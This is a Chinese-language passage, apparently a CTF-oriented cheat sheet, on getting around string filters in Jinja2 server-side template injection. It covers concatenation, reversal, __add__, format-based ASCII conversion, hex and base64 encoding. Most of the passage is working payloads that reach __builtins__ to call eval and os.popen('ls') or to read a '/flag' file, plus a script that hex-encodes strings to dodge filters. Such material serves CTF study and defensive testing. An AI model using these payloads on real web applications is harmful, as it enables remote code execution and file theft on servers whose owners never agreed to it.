 

#### 字符串的处理

**1、拼接**
`"cla"+"ss"`
**2、反转**
`"__ssalc__"[::-1]`

实际上我发现其实加号是多余的，在jinjia2里面，`"cla""ss"`是等同于`"class"`的，也就是说我们可以这样引用class，并且绕过字符串过滤
**3、通过\_\_add\_\_**

```python
{{''.__class__.__mro__[1].__subclasses__()[75].__init__.__globals__['__buil'+'tins__']['ev'+'al']('__imp'+'ort__("o'+'s").pop'+'en("ls").read()')}}
{{[].__class__.__base__.__subclasses__()[75].__init__.__globals__.__builtins__["open"]("/fl""ag").read()}}
{{app.__init__.__globals__["__buil".__add__("tins__")].open("/fla".__add__("g")).read()}}
```
**4、ascii转换**

```python
1.
"{0:c}".format(97)='a'
"{0:c}{1:c}{2:c}{3:c}{4:c}{5:c}{6:c}{7:c}{8:c}".format(95,95,99,108,97,115,115,95,95)='__class__'
比如：
{{""['{0:c}'['format'](95)%2b'{0:c}'['format'](95)%2b'{0:c}'['format'](99)%2b'{0:c}'['format'](108)%2b'{0:c}'['format'](97)%2b'{0:c}'['format'](115)%2b'{0:c}'['format'](115)%2b'{0:c}'['format'](95)%2b'{0:c}'['format'](95)]}}
或者：
{{""["{0:c}{1:c}{2:c}{3:c}{4:c}{5:c}{6:c}{7:c}{8:c}".format(95,95,99,108,97,115,115,95,95)]}}
得到<class 'str'>
2.
"%c%c%c%c%c%c%c%c%c"|format(95,95,99,108,97,115,115,95,95)=='__class__'
""["%c%c%c%c%c%c%c%c%c"|format(95,95,99,108,97,115,115,95,95)]
```

**4、编码绕过**

```
"__class__"=="\x5f\x5fclass\x5f\x5f"=="\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f"
比如：{{""['\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f']}}
对于python2的话，还可以利用base64进行绕过
"__class__"==("X19jbGFzc19f").decode("base64")
```

关于16进制我这里写个脚本，方便懒人吧

```
# 方法一：先通过ord()把字符转成ascii码的十进制，再通过hex（）转成16进制
# 方法二：先把字符串转成字节，再从字节转成16进制
# data="assgdfnjhgjgj"
# print(data.encode().hex())
target = "__class__"
final = ""
for item in target:
	# 0x5f转换为/x5f
    final += ("\\"+hex(ord(item))[1:])
print(final)
```

